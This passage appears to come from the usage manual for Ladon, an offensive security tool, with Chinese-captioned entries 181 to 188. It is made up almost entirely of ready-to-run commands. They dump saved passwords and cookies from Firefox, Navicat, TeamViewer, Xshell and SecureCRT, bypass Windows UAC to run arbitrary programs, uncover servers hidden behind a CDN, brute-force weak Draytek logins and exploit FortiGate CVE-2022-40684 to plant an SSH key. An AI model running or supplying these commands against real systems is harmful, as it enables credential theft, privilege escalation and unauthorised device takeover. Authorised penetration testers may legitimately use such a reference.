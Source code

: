 ##### 181 Http/S获取网页中的域名
```Bash
Ladon https://192.168.1.8 GetDomain
Ladon ip.txt GetDomain
Ladon 192.168.1.8/24 GetDomain http
Ladon ip.txt GetDomain https	扫描IP时添加https://
```

##### 182 TrueIP绕过CDN获取域名真实IP(可用域名、标题、Banner等唯一关键字特征)
```Bash
Ladon ip.txt TrueIP k8gege.org
Ladon 192.168.1.8/24 TrueIP k8gege.org
Ladon ip.txt TrueIP "K8哥哥"
Ladon 192.168.1.8/24 TrueIP "K8哥哥"
```

![image](http://k8gege.org/k8img/Ladon/Study/pwd.PNG)

##### 183 Firefox密码\Cookie\历史记录读取
```Bash
Ladon FirefoxPwd
Ladon FirefoxHistory
Ladon FirefoxCookie
```

##### 184  BypassUAC11无回显支持Win7、Win8、Win11 Win2012\2016\2019等 10.8版本移除
```Bash
Ladon40 BypassUAC11 cmd
Ladon40 BypassUAC11 c:\1.bat
Ladon40 BypassUAC11 c:\1.exe
```

##### 185 GetPwd支持Navicat、TeamView、Xshell、SecureCRT密码读取
```Bash
Ladon GetPwd
```Bash

##### 186 DraytekScan 密码审计Draytek弱口令检测
```Bash
Ladon 192.168.1.8 DraytekScan
Ladon https://192.168.1.8 DraytekScan
Ladon 192.168.1.8/24 DraytekScan
Ladon url.txt DraytekScan
```

##### 187 XshellPwd Xshell密码读取
```Bash
Ladon XshellPwd
```

##### 188 FortiGate CVE-2022-40684 未授权写SSH-KEY admin admin123
```Bash
Ladon 192.168.1.8 CVE-2022-40684
Ladon https://192.168.1.8 CVE-2022-40684
Ladon 192.168.1.8/24 CVE-2022-40684
Ladon url.txt CVE-2022-40684
```
